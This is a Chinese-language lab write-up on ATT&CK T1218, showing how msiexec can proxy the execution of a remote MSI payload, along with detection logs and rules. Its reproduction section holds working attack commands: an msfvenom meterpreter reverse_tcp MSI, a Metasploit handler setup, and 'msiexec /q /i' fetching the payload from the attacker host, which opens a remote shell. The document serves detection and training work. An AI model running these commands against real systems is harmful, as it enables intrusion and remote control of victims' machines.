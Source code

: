 # T1218-win-基于白名单Msiexec执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f msi > 1.msi
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) >expliot
```

#### 靶机执行payload

```cmd
msiexec /q /i http://192.168.126.146/1.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49323) at 2020-04-18 22:04:26 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
# windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xe78
新进程名: C:\Windows\System32\msiexec.exe

# sysmon日志
事件ID：1
UtcTime: 2020-04-18 14:04:16.596
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: msiexec  /q /i http://192.168.126.146/1.msi
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-08db-5e9b-0000-001049f63d01}
ParentProcessId: 1900
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

可针对以下命令参数进行检测。

```dos
· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"
```

## 参考推荐

MITRE-ATT&CK-T1218:<https://attack.mitre.org/techniques/T1218/>

基于白名单的Payload:<https://blog.csdn.net/weixin_30790841/article/details/101848854>
